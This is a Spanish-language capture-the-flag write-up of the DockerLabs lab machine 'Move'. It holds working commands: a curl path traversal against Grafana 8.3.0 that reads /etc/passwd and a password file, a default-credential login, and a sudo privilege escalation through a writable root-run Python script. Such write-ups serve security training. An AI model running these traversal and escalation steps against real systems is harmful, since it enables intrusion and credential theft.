









___
Tags: #PathTraversal #SUID
___
# Move

## Información General

**- Dificultad:** Fácil <br>
**- Sistema operativo:** Linux <br>
**- Vulnerabilidad explotada.**  Path Traversal <br>
**- Fecha de resolución:** 16/03/2026 <br>
**- Enlace:** https://dockerlabs.es <br>

## Reconocimiento

**DockerLabs** nos proporciona la ip de la máquina objetivo **172.17.0.2**

### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 172.17.0.2
```

**Su ttl es 64. Por tanto, es Linux**

## Enumeración

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 172.17.0.2
```

<p align="center"> 

</p>

| Open port | Service | Version                               |
| --------- | ------- | ------------------------------------- |
| 22        | ssh     | OpenSSH 9.6p1 Debian 4 (protocol 2.0) |
| 80        | http    | Apache httpd 2.4.58 ((Debian))        |
| 3000      | 3000    | Grafana http                          |

### Enumeración web

#### Gobuster

```
gobuster dir -u http://<ipVictima> -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html
```

<p align="center"> 

</p>

Visitando esta pagina http://172.17.0.2/maintenance.html nos encontramos con:

<font color="#953734">Website under maintenance, access is in /tmp/pass.txt</font>

Nos lo guardaremos por si nos sirve en un futuro

## Explotación

Visitando la siguiente pagina http://172.17.0.2:3000/

Resulta que es el login de la plataforma de GRAFANA, pruebo con las credenciales básicas <font color="#9bbb59">admin/admin</font> y me permite acceder cambiando la contraseña

Usando la herramienta **Wappalyzer** detecto que la version de **Gafana** es 8.3.0

Investigo en internet si hay algún exploit y resulta que sí a **Path Traversal** en está [pagina](https://csirt.telconet.net/comunicacion/noticias-seguridad/vulnerabilidad-de-lectura-arbitraria-de-archivos-en-grafana/) explica la vulnerabilidad

<p align="center"> 

</p>

Los plugins que de por sí que ya tiene instalado la pagina son:

<p align="center"> 

</p>

Si lo realizo desde el navegador no me funciona la explotación, por tanto lo haremos desde la terminal con el siguiente comando:

```
curl --path-as-is http://172.17.0.2:3000/public/plugins/alertlist/../../../../../../../../../etc/passwd
```

El parámetro **--path-as-is** impide que la herramienta normalice la ruta en la URL, preservando secuencias como `../` para explotar la vulnerabilidad

<p align="center"> 

</p>

Me doy cuenta que hay un usuario llamado **freddy**

Os acordáis que nos encontramos esta ruta anteriormente: **/tmp/pass.txt**

```
curl --path-as-is http://172.17.0.2:3000/public/plugins/alertlist/../../../../../../../../../tmp/pass.txt
```

La contraseña: <font color="#9bbb59">t9sH76gpQ82UFeZ3GXZS</font>

<p align="center"> 

</p>

## Explotación Posterior

### Tenemos que conseguir una conexión más estable

Usamos python3, porque el sistema tiene instalado python3

```
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
```

En el caso que tengamos que usar nano, ya nos dejará

### Escalada de Privilegios

#### Primer comando:

```
sudo -l
```

<p align="center"> 

</p>

Observo que este archivo tiene los siguientes permiso:

<p align="center"> 

</p>

Observo que este archivo puede ser escrito por el usuario **freddy**. Por tanto, preparo el siguiente script

```bash
import os
import pty

os.system("/bin/bash")
```

Por último, usando este comando llegamos a ser root:

```
sudo -u root /usr/bin/python3 /opt/maintenance.py
```

<p align="center"> 

</p>

## Conclusión

La máquina **Move** de la plataforma **Dockerlabs** me pareció bastante interesante, especialmente por la forma en que se explotaba la vulnerabilidad de _path traversal_, la cual permitía acceder a directorios como `/etc/passwd` y `/tmp/pass.txt`.  

Finalmente, la escalada de privilegios fue sencilla. Aproveché el archivo `maintenance.py`, que tenía permisos de **sudo** y además podía ser modificado por el usuario **freddy**. Preparando un script y aprovechando que **python3** contaba con permisos de **root**, logré obtener acceso total al sistema.